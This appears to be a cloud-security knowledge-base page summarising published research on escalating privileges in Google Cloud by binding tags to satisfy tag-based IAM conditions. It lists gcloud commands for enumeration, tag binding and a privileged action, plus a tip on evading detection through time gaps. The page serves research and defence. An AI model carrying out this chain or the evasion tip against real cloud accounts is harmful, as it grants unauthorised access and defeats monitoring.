 ```yaml
---
author_name: Ariel Kalman
title: Tag Your Way In - GCP Privilege Escalation Using Tags
description: A new privilege escalation technique in Google Cloud that leverages tag bindings to bypass IAM conditions and gain unauthorized access to sensitive resources.
---
```



<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp">Tag Your Way In: New Privilege Escalation Technique in GCP</a> by <a href="https://www.linkedin.com/in/ariel-kalman-47314a19b/">Ariel Kalman</a></p>
    <p><img src="/images/researchers/ariel_kalman.jpeg" alt="Ariel Kalman" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>


GCP IAM Conditions allow fine-grained access control using context like time, resource type, and tags—but those same tags can enable unexpected privilege escalation. **In this post, we show how a user with only viewer and tagUser roles can escalate to full admin access without changing any IAM policy**.

## Background
#### Conditional Access Based on Tags

In GCP, IAM policies control access by assigning roles to members on resources, optionally using conditions based on request time, IP address, or resource tags. Tags are key-value pairs that can be inherited and used in IAM Conditions, such as resource.matchTag('env', 'sandbox'), to enforce fine-grained access control.

For example, this is an IAM policy with a resource tag condition:
```json
{
  "bindings": [
    {
      "condition": {
        "description": "Only allow access if a resource is tagged env=sandbox",
        "expression": "resource.matchTag('env', 'sandbox')",
        "title": "SandboxTagCondition"
      },
      "members": [
        "group:sandbox_users@**************"
      ],
      "role": "roles/compute.admin"
    }
}
```

#### TagBindings and Role-Based Tag Management
Tags are attached to resources using tagBindings, which link a resource to a specific tagValue.


#### Tag Management Roles

In GCP, tag management access is controlled using the following IAM roles:

- [`roles/resourcemanager.tagViewer`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagViewer)
- [`roles/resourcemanager.tagUser`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagUser)
- [`roles/resourcemanager.tagAdmin`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagAdmin)

!!! Tip
    To evade detection, an attacker could perform the tag binding and the privileged action in separate sessions or with a time gap greater than X minutes, breaking the detectable sequence used in correlation rules


## How to Exploit


### 1. Enumerate IAM Policies  
```shell 
gcloud projects get-iam-policy <PROJECT_ID>
``` 
**Required Role:**  `roles/resourcemanager.projects.getIamPolicy`  
**Impact:**  Discover IAM bindings and tag-based conditions
<figure markdown>
  ![IAM Policy Output Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/iam_enumeration.png){ loading=lazy }
</figure>


### 2. List Available Tags  
```shell 
gcloud resource-manager tags keys list --parent=folders/<FOLDER_ID>
gcloud resource-manager tags values list --parent=tagKeys/<TAG_KEY_ID>
```
**Required Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Enumerate tag keys and values.
<figure markdown>
  ![Tags Enumeration Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tags_enumeration.png){ loading=lazy }
</figure>


### 3. Bind Tags to Resource  
```shell
gcloud resource-manager tags bindings create \
  --tag-value=tagValues/<TAG_VALUE_ID> \
  --parent=//cloudresourcemanager.googleapis.com/projects/<PROJECT_ID>
```
**Required Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Attach tags to satisfy IAM conditions.
<figure markdown>
  ![tagBinding Creation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tag_binding_creation.png){ loading=lazy }
</figure>


### 4. Exploit Conditional Access  
```shell
gcloud compute instances delete-access-config instance-<INSTANCE_NAME> \
  --zone=us-central1-c \
  --access-config-name="External NAT" \
  --network-interface=nic0

```  
**Required Role:** `roles/compute.admin`  
**Impact:**  A privileged operation succeeded using elevated permissions (in this case, the removal of a public IP address from a GCE instance).
<figure markdown>
  ![Admin Operation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/privileged_operation.png){ loading=lazy }
</figure>


!!! Warning
    The granted privileged role depends entirely on the IAM policy. If the policy assigns `roles/compute.admin` to resources with the tag, that's what the attacker gets, but it could just as easily be `roles/compute.viewer` or any other role.


## Impact
This privilege escalation technique can lead to unauthorized access, full admin control over key services, and long-term persistence by exploiting dynamic tag-based IAM conditions. It’s a realistic risk: public Terraform modules frequently assign the tagUser role to non-admins like CI/CD accounts or integration service accounts, as seen in examples from [terraform-example-foundation](https://github.com/terraform-google-modules/terraform-example-foundation/blob/main/0-bootstrap/sa.tf) and [cloud-foundation-fabric](https://github.com/GoogleCloudPlatform/cloud-foundation-fabric/blob/master/fast/stages/0-bootstrap/README.md).

!!! Note
    For a deeper technical walkthrough, check out the [full blog post](https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp) or [contact me](https://www.linkedin.com/in/ariel-kalman-47314a19b/) for more information.


